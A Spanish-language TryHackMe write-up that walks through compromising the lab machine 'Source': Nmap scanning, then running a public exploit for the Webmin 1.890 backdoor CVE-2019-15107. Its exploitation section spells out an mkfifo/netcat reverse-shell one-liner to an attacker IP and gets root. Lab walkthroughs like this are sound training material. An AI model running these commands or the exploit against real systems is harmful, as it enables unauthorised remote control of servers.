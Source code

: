 ```yaml
---
title: "TryHackMe - Source"
description: "Webmin 1.890 Vulnerability Backdoor RCE exploit CVE-2019-15107"
date: "2024-10-15"
tags:
  - Linux
  - Webmin
  - CVE Exploitation
  - Reverse Shell
  - SUID Privesc
---
```


## Introducción

**[TryHackMe](https://tryhackme.com/p/Yw4rf)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.

```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

![Source yw4rf](source-1.png)

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

![Source yw4rf](source-2.png)

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Source yw4rf](source-3.png)

## Enumeration (Enumeración)

### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.

![Source yw4rf](source-4.png)

Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 

![Source yw4rf](source-5.png)

Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo

![Source yw4rf](source-6.png)

Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.

![Source yw4rf](source-7.png)

Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder

![Source yw4rf](source-8.png)

Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**

![Source yw4rf](source-9.png)

Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 

![Source yw4rf](source-10.png)

## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921

![Source yw4rf](source-11.png)

Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**

![Source yw4rf](source-12.png)

Luego de convertir la URL, lo descargo con `wget` 

![Source yw4rf](source-13.png)

Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos

![Source yw4rf](source-14.png)

Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina

![Source yw4rf](source-15.png)

Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:

![Source yw4rf](source-16.png)

- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 
![Source yw4rf](source-17.png)

Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.

![Source yw4rf](source-18.png)

![Source yw4rf](source-19.png)

Una vez tratada la tty verificamos si somos **root**
 
![Source yw4rf](source-20.png)

Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**
---